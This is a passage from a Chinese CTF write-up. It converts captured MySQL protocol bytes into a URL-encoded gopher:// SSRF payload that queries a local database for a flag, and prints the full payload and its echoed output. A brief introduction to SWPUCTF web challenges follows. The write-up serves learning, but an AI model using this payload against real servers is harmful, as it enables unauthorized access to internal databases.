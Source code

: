 将`hex`复制下来后转为`URL encode`

```python
>>> a = "b300000185a23f00000000012d0000000000000000000000000000000000000000000000746573745f7573657200006d7973716c5f6e61746976655f70617373776f72640071035f6f731064656269616e2d6c696e75782d676e750c5f636c69656e745f6e616d65086c69626d7973716c045f70696404323836360f5f636c69656e745f76657273696f6e0731302e312e3239095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c 210000000373656c65637420404076657273696f6e5f636f6d6d656e74206c696d69742031 1d0000000373656c656374207365637265742066726f6d20746573742e666c6167 0100000001"
>>> a = a.replace(" ", "")
>>> a = [a[i: i+2] for i in range(0, len(a), 2)]
>>> '%'.join(a)
'b3%00%00%01%85%a2%3f%00%00%00%00%01%2d%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%74%65%73%74%5f%75%73%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%71%03%5f%6f%73%10%64%65%62%69%61%6e%2d%6c%69%6e%75%78%2d%67%6e%75%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%32%38%36%36%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%32%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%1d%00%00%00%03%73%65%6c%65%63%74%20%73%65%63%72%65%74%20%66%72%6f%6d%20%74%65%73%74%2e%66%6c%61%67%01%00%00%00%01'
```

最终payload:

`gopher://localhost:3306/_%b3%00%00%01%85%a2%3f%00%00%00%00%01%2d%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%74%65%73%74%5f%75%73%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%71%03%5f%6f%73%10%64%65%62%69%61%6e%2d%6c%69%6e%75%78%2d%67%6e%75%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%32%38%36%36%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%32%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%1d%00%00%00%03%73%65%6c%65%63%74%20%73%65%63%72%65%74%20%66%72%6f%6d%20%74%65%73%74%2e%66%6c%61%67%01%00%00%00%01`

回显：

```
N 5.6.40-logw�D@Uj6k<)��-�TLa#(=:LO's1mysql_native_password'def@@version_comment-L��Source distribution�.deftestflagflagsecretsecret-���"'&D0g3{G0ph1er_4nd_55rf_1s_1nt3rest1ng!}�" 
```

***

## SWPUCTF

前几天的SWPUCTF，是学长推荐做的，Web题目共五道，质量确实很高，但因为得准备这周三培训和周五讲课的PPT，赛中只做了两道，然后其余题卡住后也没继续研究，就准备赛后看大佬们WriteUP了 (菜的流泪

今天复现了一下题目，学到了不少，觉得很有必要记录一下

***

### 用优惠码，买个X

